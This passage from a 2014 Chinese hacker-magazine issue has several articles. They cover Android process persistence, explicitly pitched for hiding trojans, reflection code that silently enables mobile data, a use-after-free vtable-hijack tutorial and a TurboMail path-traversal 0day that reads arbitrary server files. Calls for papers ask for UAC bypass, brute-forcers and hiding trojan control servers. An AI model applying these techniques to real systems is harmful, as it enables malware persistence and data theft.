    ShellExecuteA(NULL, "RunAs", argv[0], NULL, NULL, SW_SHOW);
}
//DebugActiveProcessStop(dwPID);
return 0;
}
```

被注释掉的 `DebugActiveProcessStop` 函数用于分离被调试进程。如果读者决定采用“清零寄存器+分离被调试进程”的方法将会用到。

Windows 系统为调试提供了丰富的支持，有兴趣的读者可以尝试实现一款简单的调试器。有关内容可以参考张印奎的《软件调试》第 9、10 章和《Python 灰帽子》，内有大量的示例代码。本文演示了调试器两个最基本的功能：附加到已经启动的进程和从被调试进程分离，谨作抛砖引玉之用。

本文中的程序在 Win8.1 + VS2013 下编译运行，金山毒霸为最新版本。本文提供的思路与代码仅供技术交流，不得用于非法用途。

（完）

## Android 系统进程保护浅析

文/图 马智超（DesertEagle） 欧阳潇琴

在 Android 系统中，无论是木马也好，安全软件也好，都需要实时地在后台执行一些任务。如木马的话需要实时监控用户信息，但这些进程也可以被结束掉，木马进程可以，安全软件也可以。试想一下你有一个超级厉害的安全软件可以保护用户隐私，但是这时，一个人打开了你手机的进程管理器，强制结束掉了安全软件的进程，那么这个软件的一切功能都不复存在了。所以，现在我们浅析一下如何在 Android 系统中实现对指定进程的保护，使得他人在手机进程管理器中结束掉我们的进程几率变小，或者说，最大程度上不让其影响我们进程的执行。

### 实现方法分析

首先，我们需要简单了解一下 Android 进程的机制：Android 系统中，当一个应用的组件开始运行，系统会为这个应用启动一个进程。Android 中的进程是托管的，当系统进程空间紧张的时候，会依照优先级自动进行进程的回收。在网上了解到，Android 将进程分为 6 个等级，它们按优先级由高到低排列依次是：前台进程（FOREGROUND_APP）、可视进程（VISIBLE_APP）、次要服务进程（SECONDARY_SERVER）、后台进程（HIDDEN_APP）、内容供应节点（CONTENT_PROVIDER）、空进程（EMPTY_APP）。

通过百度，网上有很多种说法，但是实用性都不是很高，与我们要实现的目的有一定的差距。我们分别对其进行了尝试，首先说一下我们搜到的一些方法：

- 1. **提高进程优先级**：如后台操作采用 Service 形式，因为一个运行着 service 的进程比一个运行着后台 activity 的等级高；或者依赖于其他优先级高的进程，例如：一个 A 进程里的 service 被绑定到 B 进程里的组件上，进程 A 将总被认为至少和 B 进程一样重要。
- 2. **强制修改进程属性**：在程序中设置 `setPersistent(true)`，persistent 属性默认值是 false，但是像手机中一些系统应用（如电话）会被设置为 true。被 `android:persistent` 修饰的应用会在系统启动之后被 AM 启动，设置为 true 可以在一定程度上保护进程。

这样的方法在一定程度上可以保护进程，但是我们没有花太多时间去研究过，感觉实用性应该不是太高。于是我们想到一个简便的方法：采用两个进程互相监控、互相保护，任何一个进程被强制结束了，另一个就马上把它开启起来，思路就是这样。

首先我们写了两个程序，每个程序都是一个简单的界面，没有什么其他特殊的功能，只是在进程中有对彼此进程的监控，核心代码如下：

```java
if(!isRunning(this.getApplicationContext(), "com.example.listener2")){
    //这些代码是启动另外的一个应用程序的主 Activity，当然也可以启动任意一个 Activity
    ComponentName componetName = new ComponentName(
        //这个是另外一个应用程序的包名
        "com.example.listener2",
        //这个参数是要启动的 Activity
        "com.example.listener2.MainActivity");

    try {
        Intent intent = new Intent();
        intent.setComponent(componetName);
        startActivity(intent);
    } catch (Exception e) {
        Toast.makeText(getApplicationContext(), "没有找到该应用程序！", Toast.LENGTH_SHORT).show();
    }
}else{
    //Toast.makeText(getApplicationContext(), "该应用程序已启动", Toast.LENGTH_SHORT).show();
}

/**
 * 判断指定包名的进程是否运行
 * @param context
 * @param packageName 指定包名
 * @return 是否运行
 */
public static boolean isRunning(Context context,String packageName){
    ActivityManager am = (ActivityManager) context.getSystemService(ACTIVITY_SERVICE);
    List<RunningAppProcessInfo> infos = am.getRunningAppProcesses();
    for(RunningAppProcessInfo rapi : infos){
        if(rapi.processName.equals(packageName))
            return true;
    }
    return false;
}


```

### 功能测试

先是安装好两个 APK，真正应用的时候可以伪装成系统文件，也可以不存在桌面图标，隐藏后其实用性就更加显著了，如图 1 所示。
图 1

图 1 是进程运行后的界面，在进程管理器中结束掉（所谓任务管理器就是在设置-管理-应用里，可以结束掉正在运行的应用），如图 2 所示，之后程序马上就被重启了，如图 3 所示。
图 2
图 3

感觉这个挺实用的，在木马中我可以悄悄安装两个 APK，将另一个伪装成系统的软件，每次开机启动，这样就不用担心进程被杀掉了。经过测试，可以实现两个进程的互相监控、互相保护，在一定程度上起到了防止在任务管理器中被强制结束的作用。本文提供的其他方法，因为自己本身没有太多时间去做，因此没做太多的尝试。

经过测试此种方法，可以实现对指定进程的保护。当你在任务管理器中结束掉指定进程，另一个进程监控到会立刻将其开启。两个 APK 互相保护，使得指定进程要执行的功能不被干扰。

## Android 系统一次恶意软件攻防研究

文/图 马智超（DesertEagle） 欧阳潇琴

之前下载了个运行于 Android 系统的游戏玩玩，这个游戏是我通过 360 手机助手找到的，下载安装后经安全软件检测后提示不是木马可以放心使用。但是在 Android 系统上写个游戏木马，让其不被查杀出来也是很容易的，因为木马可以千变万化，写木马的人又邪恶又狡猾。

事实上我每次玩手机游戏前都会把无线网关闭，玩完退出之后清理后台进程，来防止我安装的游戏真的是个木马或者绑定了木马，这次我依旧如此，但是当我玩了很长时间退出游戏后，意外地发现数据连接早就被打开了，结果我手机自动下载了很多垃圾软件而且还浪费了好多手机流量，导致我这月的手机费大增。

这个木马太没节操了，我发现当我的手机打开无线网络的时候系统会自动弹出窗口，提示无线网络已经打开，但是打开数据连接的时候却是没有任何提示。我发现这是个很严重的问题，也许只有某些手机有这个问题，我没测试过其他的手机。但这个恶意游戏软件就是利用了这一点来祸害人。于是我对这一点进行了研究，这就好比把一个屋子里唯一的门给堵上了，这样恶意软件再怎么邪恶也无可奈何了，对其研究也是为了以后再安装什么软件的时候更加安心吧。

### 原理分析

首先来分析一下该木马是如何自动打开数据连接的：

Android 系统的软件如果想强制打开数据连接是需要权限的，因为需要进行网络连接，所以需要以下权限：

- `<uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>`
- `<uses-permission android:name="android.permission.ACCESS_WIFI_STATE"/>`
- `<uses-permission android:name="android.permission.CHANGE_NETWORK_STATE"/>`
- `<uses-permission android:name="android.permission.CHANGE_WIFI_STATE"/>`

我们需要认识一个类 `ConnectivityManager`，它主要管理和网络连接相关的操作，所以我们可以通过这个类来实现打开手机流量的功能，当然也能实现监控手机网络状态的功能，核心代码如下：

```java
// 取得 ConnectivityManager 类
conMgrClass = Class.forName(conMgr.getClass().getName());
// 取得 ConnectivityManager 类中的对象 mService
iConMgrField = conMgrClass.getDeclaredField("mService");
// 设置 mService 可访问
iConMgrField.setAccessible(true);
// 取得 mService 的实例化类 IConnectivityManager
iConMgr = iConMgrField.get(conMgr);
// 取得 IConnectivityManager 类
iConMgrClass = Class.forName(iConMgr.getClass().getName());
// 取得 IConnectivityManager 类中的 setMobileDataEnabled(boolean) 方法
setMobileDataEnabledMethod = iConMgrClass.getDeclaredMethod("setMobileDataEnabled", Boolean.TYPE);
// 设置 setMobileDataEnabled 方法可访问
setMobileDataEnabledMethod.setAccessible(true);
// 调用 setMobileDataEnabled 方法
setMobileDataEnabledMethod.invoke(iConMgr, enabled);
```

这样通过以上的操作我们就可以实现打开手机流量了，网上还有很多种方法，这里不做总结了。

然后根据它的实现过程或者方法我们就可以分析一下如何防御这种强制打开流量的恶意行为，我认为可以从两方面入手：

- 1. 当软件被安装后实现对应用程序权限的扫描，看是否有可疑权限（就是以上提到的权限）。但这种方法只是一个不太靠谱的保护伞，因为它的判别标准不够精确，且不能实现实时防护，有一种宁可错杀一个好人也不放过一个坏人的感觉。
- 2. 对所有软件的这种恶意行为进行实时监控，实现实时保护。

这里还是要用到 `ConnectivityManager`，因为它可以管理网络连接，然后我们用一个逻辑判断就好了。我的手机是移动手机，所以只对移动手机的流量开启进行了监控。核心代码如下：

```java
ConnectivityManager connectMgr = (ConnectivityManager) context.getSystemService(Context.CONNECTIVITY_SERVICE);

NetworkInfo mobNetInfo = connectMgr.getNetworkInfo(ConnectivityManager.TYPE_MOBILE);
NetworkInfo wifiNetInfo = connectMgr.getNetworkInfo(ConnectivityManager.TYPE_WIFI);

if (mobNetInfo.isConnected() && !wifiNetInfo.isConnected()) {
    return "app_test-->当前正在使用2G/3G/4G网络";
} else if (!mobNetInfo.isConnected() && wifiNetInfo.isConnected()) {
    return "当前正在使用wifi网络";
}
return "app_test-->当前无网络连接";


```

### 功能测试

如图 1 所示，可以看到自己写的 isOpen 监控程序已经在后台开启，图 2 是数据连接状态，一开始是未打开的。
图 1
图 2
图 3  
图 4

如图 3 是我们仿照恶意程序的软件，实现强制打开手机流量的功能。为了测试，在 Activity 中直接手动点开，要想实现后台直接写到服务中就可以了。图 4 是监控到的弹窗提示，主要就是为了测试是否能在其他的程序窗口前实现弹窗提示，或者改成震动提示或语音提示会更好，这样更容易被手机用户察觉到。

监控程序只要再加工加工就更加实用了，对待恶意软件的入侵就多了一层非常实用的保护伞。这是对于我自己需求而写的软件，因为最近一直很忙，所以没有时间去详细分析那个恶意软件了，这样简单弄一下以后再安装什么程序心里就不用担心了。

（完）

### 2014 年第 9 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。第 9 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

### 1. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- 1) Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- 2) Windows UAC 低权限下，进入系统后提高账户权限的方法。

### 2. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

### 3. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 Gmail、Yahoo 信箱。

### 4. Windows 7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows 7 屏幕保护密码的方法。

### 5. 暴力破解 3389 远程桌面密码

要求：

- 1) 针对 Windows 3389 远程桌面实现暴力破解密码；
- 2) 读取指定的用户名和密码字典文件；
- 3) 采用多线程；
- 4) 所有函数都必须判断错误值；
- 5) 使用 VC++2008 编译工具实现，控制台程序；
- 6) 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 7) 支持 Windows XP/2003/7/2008。

### 6. WEB 服务器批量扫描破解

- 1) 针对目标 IP 参数要求
  - 10.10.0.0/16
  - 10.10.3.0/24
  - 10.10.1.0-10.255.255.255
- 2) 针对目标 Web 服务器扫描要求
  - 可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 Apache 或者 IIS 等，具体参考如下：
    - Tomcat
    - WebLogic
    - JBoss
    - Apache
    - JOnAS
    - WebSphere
    - Lotus Server
    - IIS(Webdav)
    - Axis2
    - ColdFusion
    - Monkey HTTPD
    - Nginx
- 3) 针对目标 Web 服务器后台扫描
  - 针对目标进行后台地址搜索。
- 4) 针对目标 Web 后台密码破解
  - 搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

### 7. 木马控制端 IP 地址隐藏

要求：

- 1）在远程控制配置 server 时，一般情况下控制地址是写入被控端的，当木马样本被捕获分析时，可以分析出控制地址。针对这个问题，研究控制端地址隐藏技术，即使木马样本被捕获，也无法轻易发现木马的控制端真实地址。
- 2）使用 C 或 C++ 语言，VC6 或者 VC2008 编译工具实现。

### 8. Web 后台弱口令暴力破解

说明：  
针对国际常用建站系统以及自编写的 WEB 后台无验证码登录形式的后台弱口令账密暴力破解。

要求：

- 1）能够自动或自定义抓取建站系统后台登录验证脚本 URL，如 WordPress、Joomla、Drupal、MetInfo 等常用建站系统；
- 2）根据抓取提交账密的 URL，可自动或自定义选择提交方式，自动或自定义提交登录的参数，这里的自动指的是根据默认字典；
- 3）可自定义设置暴力破解速度，破解的时候需要显示进度条；
- 4）高级功能：默认字典跑不出来的后台，可根据设置相应的 GOOGLE、BING 等搜索引擎关键字，智能抓取并分析是否是后台以及自动抓取登录 URL 及其参数；默认字典跑不出来的账密可通过 GOOGLE、BING 等搜索引擎抓取目标相关的用户账户、邮箱账户，并以这些账户简单构造爆破账密，如用户为 admin，密码可自动填充为域名，用户为 abcd@abcd.com，账户密码就可以设置为 abcd abcd 以及 abcd abcd123 或 abcd abcd123456 等简单账密；
- 5）拓展：尽可能地多搜集国外常用建站系统后台来增强该软件查找并定位后台 URL 能力；暴力破解要稳定，后台 URL 字典以及账密字典可自定义设置等。

### 9. 编写端口扫描器

要求：

- 1）扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 2）扫描方式采用多线程，并能设置线程数；
- 3）将功能编写成 DLL，导出功能函数；
- 4）代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 5）尽量多做出错异常处理，以防程序意外崩溃；
- 6）使用 VC++2008 编译工具编写；
- 7）支持系统 Windows XP/2003/2008/7。

## 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
  1) 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；  
  2) 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；  
  3) 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

## 11. 突破 Windows 7 UAC

说明：

编写一个程序，绕过 Windows 7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

- 要求：
  1) Windows UAC 安全设置为最高级别；  
  2) 系统补丁打到最新；  
  3) 支持 32 位和 64 位系统。

### 2014 年征稿启事

《黑客防线》作为一本技术月刊，已经 14 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 POC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台的安全机制的研究。

### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统的渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效的不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求

- 1) 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；  
  2) 在稿件末尾请注明您的账户名、银行账号，以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。  
  3) 投稿方式和周期：采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。  

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 4) 稿费发放周期：稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。  
  5) 根据稿件质量，分为一等奖、二等奖、三等奖稿件，稿费标准如下：

| 稿件等级 | 稿费 |
|---|---|
| 一等稿件 | 900 元/篇 |
| 二等稿件 | 600 元/篇 |
| 三等稿件 | 300 元/篇 |

- 6) 稿费发放办法：银行卡发放，支持境内各大银行借记卡，不支持信用卡。  
  7) 投稿信箱及编辑联系  

投稿信箱：675122680@qq.com、hadefence@gmail.com  
编辑 QQ：675122680
# 黑客防线

在攻与防的对立统一中寻求突破

总第 165 期 2014 9

网站全新改版，欢迎访问：http://www.hacker.com.cn

- DedeCMS v5.7 SP1 可隐藏后门漏洞研究
- 用 UAF 漏洞攻击虚表原理浅析之攻击篇
- 对某娱乐网站的一次安全检测
- TurboMail 远程 0Day 大曝光
- 利用 WinPcap 获取数据包与设备列表

## 《黑客防线》9期文章目录

总第 165 期 2014 年

#### 漏洞攻防

- 利用 UAF 漏洞攻击虚表原理浅析之攻击篇（木羊）……3
- TurboMail 远程 0Day 大曝光（爱无言）……5
- Lmxcms SQL 注入漏洞（ywledoc）……11
- 对某娱乐网站的一次安全检测（simeon）……12
- 内网渗透之内网初探（侠名）……16
- DedeCMS v5.7 SP1 可隐藏后门漏洞研究（赵显阳）……23

#### 编程解析

- 利用 WinPcap 获取数据包与设备列表（xfeng）……27

- 2014 年第 10 期杂志特约选题征稿……35
- 2014 年征稿启事……38

## 利用 UAF 漏洞攻击虚表原理浅析之攻击篇

文/图 木羊

我们在《利用 UAF 漏洞攻击虚表原理浅析（前篇）》里讨论了 UAF 的攻击对象虚表（VTable），一起看了虚表的作用和内存布局，现在攻击对象已经就位，那么本篇就该转入对攻击手段的思考：要如何利用虚表的特性。

攻击虚表，核心思想倒十分简单明了，既然现在已经知道虚表保存的是一个 DWORD 大小的指针，指向调用函数的地址，那么只要替换这个地址，换上我们想要执行代码的首地址，那就完成了利用攻击。这种通过替换地址（例如栈溢出替换的是保存在调用栈中的函数返回地址）的攻击利用方式，是不是感觉和堆栈溢出颇有相似之处？这就是所谓的间接攻击方式，而类似的还有各种 Table Hook，如 IDT Hook 和 IAT Hook，这些 Table Hook 同样也是通过函数地址的替换实现攻击。

文字性的原理介绍就到这里，没有代码总是有点纸上谈兵的感觉，下面就以一段演示代码配合反汇编来进行说明。首先我们设计模拟内存中对象的数据结构：

```c
struct Memobj
{
    void (*pfunc)();
    DWORD val;
};
```

这是一个占 8 个字节（2*dword）名为 Memobj 的结构体，共由两个 dword 大小的数据组成，第一个结构体成员是一个指向零参数返回值是 void 的函数指针，无论什么指针，所占的内存大小都是 dword，稍加回忆上一篇文章便知，这是模拟占内存布局中第一个 dword 的虚表；第二个是一个 dword 类型的变量，这个成员无关紧要，只是象征内存对象除虚表外的其它信息。

接着是对这个内存对象的初始化：

```c
Memobj *memobj = (Memobj *)malloc(sizeof(Memobj));
```

```c
memobj->pfunc = oldfunc;
```

首先使用了 malloc 分配内存空间，接着是初始化函数指针，指向一个名为 oldfunc 的函数，这个函数在这场模拟秀中扮演的是类方法的角色。至于为什么不用 new 分配内存，因为 malloc 对应的释放内存函数是 free（new 对应的则是 delete），暗合了我们研究的“Use-after-free”，而且两个函数功能基本一致，这一点后面再介绍。

上面这段初始化工作的反汇编代码如图 1 所示。

```asm
push    8                ; size_t
call    _malloc
add     esp, 4
mov     [ebp+lpMem], eax
mov     eax, [ebp+lpMem]
mov     dword ptr [eax], offset oldfunc
```

图1

这段反汇编码其实已经十分接近常见的内存对象，特别是虚表的初始化，共分两个阶段，以 call malloc 为分界，就算是生产环境使用的实际代码，无非也是这两步：第一步是分配内存，由于最终都需要调用操作系统的 API 来完成，这一步其实大同小异，只会多一些判断和异常处理；第二步是赋值，这一步就更难玩出花样了，唯一大的区别反而更可能体现在编译器的优化层面，在本例中是通过一个间接寻址的方式用 mov 操作填入 oldfunc 的函数地址。

这时用作模拟的内存对象已经初始化完毕，调用虚表的过程可以简单地用下面这句来表示：

```c
memobj->pfunc();
```

对应的反汇编代码如图 2 所示。

```asm
mov     eax, [ebp+lpMem]
mov     [ebp+var_4], eax
mov     ecx, [ebp+var_4]
call    dword ptr [ecx]
```

图2

这段其实可以简化成两句：

- 1. mov eax, [memobj]
  2. call [eax]

这个形式是不是很熟？还记得上一篇文章介绍虚表调用时的简化代码吗：

- 1. mov eax, [ecx]
  2. call [eax]

其实都是一回事，因为 ecx 代表着 this，指向的就是内存对象的首地址。上一次我们看的是编译器对类对象的编译结果，现在我们相当于用等价代码重新实现了一遍，相信大家看了也更明白外表高深莫测的类对象调用实际上是怎么一回事了。

好了，现在我们来人为制造一个 UAF 漏洞。别看漏洞到处都是，但那些都是无心之失，要刻意制造一个，必须深刻明白其中的原理才行。其实只要加两句：

```c
free(memobj);

memobj->pfunc();


```

看明白了吗？第一句是释放了内存对象所占的内存，而第二句则是在释放后又调用了一次函数指针成员。这就是典型的 Use-After-Free 漏洞了。不过细心的同学应该马上想到一个问题，这样写虽然语法合法，也能编译通过，但只要一执行，由于 free 后的内存是不允许进行任何操作的，程序就会因为读取了非法内存地址而马上崩溃。这样虽然存在漏洞，但也根本没有利用的时机了。

这种担心是对的，但本例只是模拟，在实际编码中，很可能由于逻辑复杂和工程巨大，在执行完第一句 free 后，又花费了很多时间，中间又夹杂和执行了很多代码，嵌套了各种函数，甚至需要进入特定的逻辑流程中才会执行第二句（而且也可能不是这么直接的调用，而是作为某个参与的数据结构的某个藏得很深的成员）。事实上，UAF 的漏洞自身也是分三六九等的，而分等级的标准，正是在第一句与第二句之间夹杂的代码操控的容易程度。

现在假设第一句和第二句中，存在有这么一种情况，能够让我们在 free 之后重新申请到与原内存对象完全相同的内存地址，这样我们就可以随意操作这片内存，譬如在首地址起 DWORD 大小的内存空间内写入某个写有 shellcode 的特定地址，当程序执行到调用原内存对象虚表时，就能完成 UAF 漏洞的利用了。

由于内存地址属于有限资源，是允许循环利用的，申请到相同的内存地址至少在理论上是可行的，剩下的问题又转变成如何申请上来。这种申请相同内存地址的动作，在一些黑客论文中又称为“占位”。而占位，才是 UAF 漏洞利用所要真正解决的重点和难点问题。我将在接下来的文章继续讨论这个问题。

## TurboMail 远程 0Day 大曝光

文/图 爱无言

对于国内邮件系统来说，能够支持 WebMail 功能的邮件系统数量逐步增多，在老牌的邮件系统当中，TurboMail 邮件系统是比较有名的一款。在过去的几年里，关于该邮件系统的安全漏洞似乎只是集中爆发过一次，经过大量的改进和升级，现在的 TurboMail 邮件系统无论从功能上，还是安全性方面，都有了较大的完善。最近由于工作需要，我们针对最新版本的 TurboMail 邮件系统进行了一次安全测试，测试结果却不容乐观，这里将本次安全测试的过程拿出来与大家一起分享，共同学习进步。

首先，给大家交待一下被测试对象，本次测试的 TurboMail 邮件系统是 Windows 版本下的 5.2.0，该软件的安装过程十分简单，一路“下一步”直到完成即可。安装完毕后，需要重启计算机，因为 TurboMail 邮件系统的所有邮件服务功能需要重启后才能运行。重启后，我们能够看到 TurboMail 邮件系统的运行状态，如图 1 所示。
图 1 TurboMail 邮件系统的运行状态

TurboMail 邮件系统采用了 MySQL 数据库作为邮件系统的数据存储，同时提供了丰富的 WebMail 功能，如图 2 所示。
图 2 TurboMail 邮件系统的 WebMail 界面

借助“用户注册”功能或者直接利用 TurboMail 邮件系统的后台管理功能，我们添加了一个测试用户“test@root”，密码为“a123456”。当我们在系统中添加该用户后，TurboMail 邮件系统会在其所在服务器的本地硬盘上添加一个对应该用户名的文件夹，如图 3 所示。
图 3 系统用户在服务器上所对应的文件夹

上述这种存储用户相关信息的方法广泛用于当前的邮件系统当中，虽然这种方法简单易操作，但是却方便了攻击者利用此方法来猜解用户数据，后面我们将看到该方法被恶意利用的真实情景。

TurboMail 邮件系统的 WebMail 支持用户正常收发邮件，也允许用户在邮件中加载任意格式的附件，这个过程毫无疑问也需要服务器支持文件上传下载功能，于是，我们决定从这里入手分析 TurboMail 邮件系统可能存在的安全漏洞。

在 TurboMail 邮件系统的安装目录中，我们找到了该系统用来处理用户附件数据的相关 Web 文件，其中有“viewfile.jsp”。该文件的核心代码如下所示：

```java
String  mbtype  =  request.getParameter("mbtype");
String  msgid  =  request.getParameter("msgid");
String  fileid  =  request.getParameter("fileid");
String  filename  =  request.getParameter("filename");
filename  =  URLDecoder.decode(filename,"utf-8");
if (!Util.dirSafe(filename) || !Util.dirSafe(fileid)) {
    XInfo.gotoInfo(ms,request,response,"info.securitycheck",null,0);
    return;
}
String  viewFileUrl  =  "viewfilemain.jsp?mbtype="+mbtype+"&msgid="+msgid+"&fileid="
    +fileid+"&filename="+URLEncoder.encode(URLEncoder.encode(filename,
    "utf-8"), "utf-8")+"&sessionid="+ ms.session_id;


```

从代码中我们可以看出，fileid 和 filename 这两个参数涉及到了文件名称等相关信息，属于重点参数。同时，这两个参数经过了系统安全函数的检查，代码中利用“Util.dirSafe”函数检查 fileid 和 filename 这两个参数的赋值是否合法，如果非法则直接给出警告提示，如图 4 所示。
图 4 系统对 fileid 和 filename 这两个参数进行安全检查

从图 4 给出的安全警告提示来看，似乎我们想要利用 fileid 和 filename 这两个参数干坏事的话，存在一定难度。但是，“viewfile.jsp”最终传递参数的文件并不是该文件本身，而是“viewfilemain.jsp”，让我们再来看看“viewfilemain.jsp”这个文件，也许转机就在那里。

```java
String mbtype = request.getParameter("mbtype");
String msgid = request.getParameter("msgid");
msgid = Util.formatRequest(msgid, MailMain.s_os, SysConts.New_InCharSet);
String fileid = request.getParameter("fileid");
String filename = request.getParameter("filename");
filename = URLDecoder.decode(filename,"utf-8");
String prefix = ms.temp_path;
String path = prefix + SysConts.FILE_SEPARATOR + userinfo.getUid()+ "@" + userinfo.domain;
path += SysConts.FILE_SEPARATOR + Util.GBToISO(mbtype, ms.encoding, MailMain.s_os);
path += SysConts.FILE_SEPARATOR + msgid;
String realfilename = path + SysConts.FILE_SEPARATOR + fileid;
String realfilepath = path + SysConts.FILE_SEPARATOR;


```

通读上述代码，我们发现在其中并没有出现安全检查函数“Util.dirSafe”，代码只是非常简单地将用户提交给服务器的参数进行了组装，其中 fileid 参数代表着真实文件的文件名称，而 filename 参数则是一个伪造参数，也就是说这个参数在实际中并不代表着真实文件的名称，而是代表着文件被显示给用户的名称，举个例子来说，真实的文件名称如果是 root.txt，你可以利用 filename 参数显示给用户为 nihao.jpg，这其中并没有什么直接的联系。现在，我们开始修改 fileid 参数，试图利用该参数读取服务器上的任意指定文件，这能够做到吗？首先，我们将 fileid 参数修改为“../”，提交该参数，如图 5 所示。
图 5 fileid 参数修改为“../”后的效果

我们发现此刻 TurboMail 邮件系统并没有像图 4 那样给出警告提示，这意味着图 5 出现的空白，只是因为我们提交的 fileid 参数值存在问题，指向了一个并不存在的路径地址，造成系统没有给出任何显示而已。仔细分析“viewfilemain.jsp”的代码，我们发现原有的 path 参数指向的位置是服务器上 TurboMail 邮件系统安装目录下的“WebTemp”目录。为此，我们重新修改了 fileid 参数，让它指向 TurboMail 邮件系统安装目录下的“README.txt”文件，看看这次能不能发生奇迹，如图 6 所示。
图 6 成功读取服务器上的“README.txt”文件

奇迹发生了！浏览器中清晰明了地显示出远程服务器上“README.txt”文件的内容，一个新的安全漏洞出现了！

漏洞出现了，我们更需要知道利用该漏洞我们能够获得什么。对于邮件系统来说，没有什么比所有用户的邮件信息更具有价值的了。但是，用户每次发送邮件的时候，每一封邮件对应的文件其具体名称往往是一串乱码似的数据，如 141180562001_5676_tm，这乱码似的文件名让我们根本无法简单地定位到想要查看的文件名称，怎么办？TurboMail 邮件系统提供了日志记录功能，在系统的日志中记录了系统内所有用户发送邮件的相关信息，这其中就包含了乱码似的邮件文件名称，如图 7 所示。
图 7 远程查看 TurboMail 邮件系统的邮件发送日志记录

